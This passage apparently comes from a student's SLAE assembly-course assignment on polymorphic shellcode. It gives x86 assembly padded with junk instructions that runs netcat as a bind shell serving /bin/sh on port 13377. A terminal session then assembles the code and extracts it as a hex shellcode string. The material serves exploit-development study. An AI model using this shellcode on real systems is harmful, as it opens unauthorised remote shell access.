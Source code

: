 ```term
       push 0x37373333         ; 7733
       std                     ; NOP Equivalent.
       push 0x3170762d         ; 1pv-
       mov edx, esp            ; Copies the value of ESP into EDX.
       push eax                ; Pushes EAX null dword (0x00000000)
       push 0x68732f6e         ; hs/n
       std                     ; NOP Equivalent.
       push 0x69622f65         ; ib/e
       sahf                    ; NOP Equivalent.
       push 0x76766c2d         ; vvl-
       mov ecx,esp             ; Copies the value of ESP into ECX

       push eax                ; NOP Equivalent.
       push 0x636e2f2f         ; cn//
       cmc                     ; NOP Equivalent.
       push 0x2f2f2f2f         ; ////
       inc edi                 ; NOP Equivalent.
       inc esi                 ; NOP Equivalent.

       push 0x6e69622f         ; nib/
       mov ebx, esp            ; Copies the value of ESP into EBX.
       push eax                ; Pushes EAX null dword (0x00000000)
       cld                     ; NOP Equivalent.
       push edx                ; Pushes value of EDX
       push ecx                ; Pushes value of ECX
       nop                     ; NOP Equivalent.
       push ebx                ; Pushes value of EBX
       cdq                     ; NOP Equivalent.
       mov  ecx,esp            ; Copies value from ESP to ECX
       push esi                ; NOP Equivalent.
       pop edi                 ; NOP Equivalent.
       push edi                ; NOP Equivalent.
       pop esi                 ; NOP Equivalent.
       pop ebp                 ; NOP Equivalent.
       mov al,11               ; Call to execve().
       int 0x80                ; Call to kernel.
```

Let's dump the shellcode and test it!

```term
root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/3_shellcode# nasm -f elf32 1.asm -o 1.o && ld 1.o -o 1 
root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/3_shellcode# objdump -d ./1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 
's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x9e\x90\xf5\x31\xc0\xf7\xe2\x50\x5a\x52\x58\x68\x33\x33\x37\x37\xfd\x68\x2d\x76\x70\x31\x89\xe2\x50\x68\x6e\x2f\x73\x68\xfd\x68\x65\x2f\x62\x69\x9e\x68\x2d\x6c\x76\x76\x89\xe1
\x50\x68\x2f\x2f\x6e\x63\xf5\x68\x2f\x2f\x2f\x2f\x47\x46\x68\x2f\x62\x69\x6e\x89\xe3\x50\xfc\x52\x51\x90\x53\x99\x89\xe1\x56\x5f\x57\x5e\x5d\xb0\x0b\xcd\x80"
root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/3_shellcode#
```
